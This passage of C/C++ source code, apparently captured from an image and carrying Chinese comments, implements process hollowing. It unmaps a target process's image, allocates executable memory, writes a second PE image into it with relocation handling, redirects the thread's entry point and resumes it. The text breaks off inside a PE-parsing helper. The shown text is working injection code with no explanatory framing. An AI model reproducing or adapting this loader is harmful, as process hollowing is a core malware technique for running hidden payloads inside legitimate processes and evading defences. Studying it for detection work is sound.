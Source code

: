 ```js
    UnmapViewOfSection(info.hProcess, (PVOID)shell.ImageBase);
    PeInfo src = { 0 };
    GetPeInfo((PBYTE)buffer, &src.ImageBase, &src.Oep, &src.SizeOfImage,&src.ReCode);//得到源程序的pe信息
    PVOID imagebuffer=VirtualAllocEx(info.hProcess, (PVOID)src.ImageBase, src.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);//申请源程序所需的空间
    if (imagebuffer != NULL) {//不等空代表内存申请成功
        printf("Not Relocation\n");
        PVOID Imagebuffer = F2i((PBYTE)buffer);
        WriteProcessMemory(info.hProcess, imagebuffer, Imagebuffer, src.SizeOfImage, NULL);
        WriteProcessMemory(info.hProcess, (LPVOID)(context.Ebx + 8), &imagebuffer, 4, NULL);
        context.Eax = src.Oep + (DWORD)imagebuffer;
        context.ContextFlags = CONTEXT_FULL;
        SetThreadContext(info.hThread, &context);
        ResumeThread(info.hThread);
    }
    else {//不相等代表在指定位置申请内存失败，需要系统指定位置申请
        if (src.ReCode == 0x1) {//重定位表存在
            printf("Relocation table Exist Start Relocation\n");
            PVOID n_buffer = VirtualAllocEx(info.hProcess, NULL, src.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
            if (n_buffer == NULL) {
                printf("VirtualAllocEx Error Code:%d\n", GetLastError());
                return;
            }
            PatchRe((DWORD)n_buffer, (PBYTE)buffer);
            PVOID Imagebuffer = F2i((PBYTE)buffer);
            WriteProcessMemory(info.hProcess, n_buffer, Imagebuffer, src.SizeOfImage, NULL);
            WriteProcessMemory(info.hProcess, (LPVOID)(context.Ebx + 8), &n_buffer, 4, NULL);
            context.Eax = src.Oep + (DWORD)n_buffer;
            context.ContextFlags = CONTEXT_FULL;
            SetThreadContext(info.hThread, &context);
            ResumeThread(info.hThread);
        }

    }

}
```

func.h

```js
#pragma once
#include <stdio.h>
#include <Windows.h>

typedef NTSTATUS(NTAPI* pZwUnmapViewOfSection)(HANDLE ProcessHandle, PVOID BaseAddress);
struct PeInfo{
    DWORD ImageBase;
    DWORD Oep;
    DWORD SizeOfImage;
    CHAR ReCode;
};

DWORD rtf(char* buffer, DWORD rva)
{
    PIMAGE_DOS_HEADER doshd = (PIMAGE_DOS_HEADER)buffer;
    PIMAGE_NT_HEADERS nthd = (PIMAGE_NT_HEADERS)(buffer + doshd->e_lfanew);
    PIMAGE_FILE_HEADER filehd = (PIMAGE_FILE_HEADER)(buffer + doshd->e_lfanew + 4);
    PIMAGE_OPTIONAL_HEADER32 optionhd = (PIMAGE_OPTIONAL_HEADER32)(buffer + doshd->e_lfanew + 24);
    PIMAGE_SECTION_HEADER sectionhd = IMAGE_FIRST_SECTION(nthd);
    //IMAGE_FIRST_SECTION
    if (rva < optionhd->SizeOfHeaders)
    {
```